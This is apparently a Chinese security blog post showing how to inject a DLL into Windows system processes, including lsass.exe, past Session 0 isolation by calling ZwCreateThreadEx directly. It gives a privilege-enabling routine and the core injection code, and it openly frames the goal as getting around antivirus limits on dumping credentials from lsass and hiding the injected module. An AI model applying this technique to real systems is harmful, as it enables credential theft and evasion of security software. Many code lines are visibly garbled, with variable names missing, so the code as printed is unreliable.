






远程线程注入Dll，突破Session 0
前言
其实今天写这个的主要原因就是看到倾旋大佬有篇文章提到:有些反病毒引擎限制从lsass中dump出缓存,可以通过注入lsass,就想试试注入lsass
看大佬的博客真的可以学到很多东西编译环境
Win10 VS2019什么是session 0
在Windows XP，Windows Server 2003以及更早的版本中，第一个登录的用户以及Windows的所有服务都运行在Session 0上。
这样做危险的地方是，用户使用的应用程序可能会利用Windows的服务程序提升自己的权限。
后续版本的windows,普通应用程序已经不再session 0中运行

思路
由于SESSION 0隔离机制，导致传统远程线程注入系统服务进程失败。和传统的 CreateRemoteThread 函数实现的远线程注入 DLL 的唯一一个区别就是,我们调用的是更为底层的ZwCreateThreadEx来创建线程,
虽然CreateRemoteThread 函数到底层也是调用ZwCreateThreadEx,但在调用ZwCreateThreadEx时 ,ZwCreateThreadEx的第7个参数 CreateSuspended（CreateThreadFlags）的值始终为1,它会导致线程创建完成后一直挂起无法恢复运行,于是我们选择直接调用ZwCreateThreadEx,将第7个参数直接置为0,这样可达到注入目的
实现过程
先创建一个dll
BOOL APIENTRY DllMain(HMODULE hModule,DWORD ul_reason_for_call,LPVOID lpReserved){switch (ul_reason_for_call){case DLL_PROCESS_ATTACH:{MessageBox(NULL, L"远程线程注入成功！", L"提示", NULL);break;}case DLL_THREAD_ATTACH:case DLL_THREAD_DETACH:case DLL_PROCESS_DETACH:break;}return TRUE;}
这里有一个坑:如果要注入系统进程的话,创建的dll一定要是64位的,这与当前的操作系统有关,后面编译exe的时候也一定要是64位的,这个更当前exe多少位有关
这是我的操作系统版本

编写程序
提升当前进程的权限
BOOL EnbalePrivileges(HANDLE hProcess, LPCWSTR pszPrivilegesName){= NULL;= { 0 };= { 0 };= FALSE;= 0;// 打开进程令牌并获取进程令牌句柄= ::OpenProcessToken(hProcess, TOKEN_ADJUST_PRIVILEGES, &hToken);== bRet){printf("OpenProcessToken");return FALSE;}// 获取本地系统的 pszPrivilegesName 特权的LUID值= ::LookupPrivilegeValue(NULL, pszPrivilegesName, &luidValue);== bRet){printf("LookupPrivilegeValue");return FALSE;}// 设置提升权限信息= 1;= luidValue;= SE_PRIVILEGE_ENABLED;// 提升进程令牌访问权限= ::AdjustTokenPrivileges(hToken, FALSE, &tokenPrivileges, 0, NULL, NULL);== bRet){printf("AdjustTokenPrivileges");return FALSE;}else{// 根据错误码判断是否特权都设置成功= ::GetLastError();== dwRet){return TRUE;}== dwRet){printf("ERROR_NOT_ALL_ASSIGNED");return FALSE;}}return FALSE;}
这里参考了 https://www.write-bug.com/article/2012.html
这个师傅对函数中三个API都有介绍
ZwCreateThreadEx
ZwCreateThreadEx 在 ntdll.dll 中并没有声明，所以我们需要使用 GetProcAddress 从 ntdll.dll 中获取该函数的导出地址。
在64位和32位中,函数定义还不一样
64位中
DWORD WINAPI ZwCreateThreadEx(PHANDLE ThreadHandle,ACCESS_MASK DesiredAccess,LPVOID ObjectAttributes,HANDLE ProcessHandle,LPTHREAD_START_ROUTINE lpStartAddress,LPVOID lpParameter,ULONG CreateThreadFlags,SIZE_T ZeroBits,SIZE_T StackSize,SIZE_T MaximumStackSize,LPVOID pUnkown);
32位中
DWORD WINAPI ZwCreateThreadEx(PHANDLE ThreadHandle,ACCESS_MASK DesiredAccess,LPVOID ObjectAttributes,HANDLE ProcessHandle,LPTHREAD_START_ROUTINE lpStartAddress,LPVOID lpParameter,BOOL CreateSuspended,DWORD dwStackSize,DWORD dw1,DWORD dw2,LPVOID pUnkown);
大体思路更之前dll注入差不多,知识更改CreateRemoteThread 为ZwCreateThreadEx
核心代码
DWORD _InjectSysThread(DWORD _Pid, LPCWSTR psDllFillName){//打开进程HANDLE hprocess;HANDLE hThread;= 0;= NULL;= 0;FARPROC pThreadFunction;= 0;= ::OpenProcess(PROCESS_ALL_ACCESS, FALSE, _Pid);//在注入进程中写入Loadlibrary名称= (_tcslen(psDllFillName) + 1) * sizeof(TCHAR);= ::VirtualAllocEx(hprocess, NULL, _SIZE, MEM_COMMIT, PAGE_READWRITE);== NULL){printf("VirtualAllocExERROR");return FALSE;}= ::WriteProcessMemory(hprocess, pAlloc, psDllFillName, _SIZE, NULL);== x){printf("WriteProcessMemoryERROR");return FALSE;}= LoadLibrary(L"ntdll.dll");== NULL){printf("LoadLibraryERROR");return FALSE;}= ::GetProcAddress(::GetModuleHandle(L"kernel32.dll"), "LoadLibraryW");#ifdef _WIN64typedef DWORD(WINAPI* typedef_ZwCreateThreadEx)(PHANDLE ThreadHandle,ACCESS_MASK DesiredAccess,LPVOID ObjectAttributes,HANDLE ProcessHandle,LPTHREAD_START_ROUTINE lpStartAddress,LPVOID lpParameter,ULONG CreateThreadFlags,SIZE_T ZeroBits,SIZE_T StackSize,SIZE_T MaximumStackSize,LPVOID pUnkown);#elsetypedef DWORD(WINAPI* typedef_ZwCreateThreadEx)(PHANDLE ThreadHandle,ACCESS_MASK DesiredAccess,LPVOID ObjectAttributes,HANDLE ProcessHandle,LPTHREAD_START_ROUTINE lpStartAddress,LPVOID lpParameter,BOOL CreateSuspended,DWORD dwStackSize,DWORD dw1,DWORD dw2,LPVOID pUnkown);#endif= NULL;= (typedef_ZwCreateThreadEx)::GetProcAddress(hNtdll, "ZwCreateThreadEx");== NULL){printf("ZwCreateThreadExERROR");return FALSE;}HANDLE hRemoteThread;= ZwCreateThreadEx(&hRemoteThread, PROCESS_ALL_ACCESS, NULL, hprocess,(LPTHREAD_START_ROUTINE)pThreadFunction, pAlloc, 0, 0, 0, 0, NULL);== hRemoteThread){printf("创建线程失败");CloseHandle(hprocess);return FALSE;}WaitForSingleObject(hRemoteThread, -1);VirtualFreeEx(hprocess, pAlloc, 0, MEM_RELEASE);CloseHandle(hRemoteThread);CloseHandle(hprocess);FreeLibrary(hNtdll);return TRUE;}
执行结果
这里我选择的是explorer.exe

注入lsass.exe ,只不过注入这类程序不会弹窗，但我们不需要弹窗嘛（滑稽）


记得使用Procexp的时候管理员运行，要不然系统进程模块看不到
但是像这种进程csrss.exe

遍历不出来,我看到网上有个师傅说这个进程好像需要更高的权限去访问,注入的话也需要其他操作,应该是牵扯到0环层面了,小弟对0环内核层并不熟悉,就写到这里,基本目标还是达成了
其实还可以内存写入,隐藏模块，更加隐蔽
如果提权运行报错的话,记得以管理员身份运行就好了
参考
https://www.write-bug.com/article/2013.htmlhttps://idiotc4t.com/code-and-dll-process-injection/bypass-session-0-injection

推荐阅读：
点赞，转发，在看
原创投稿作者：Buffer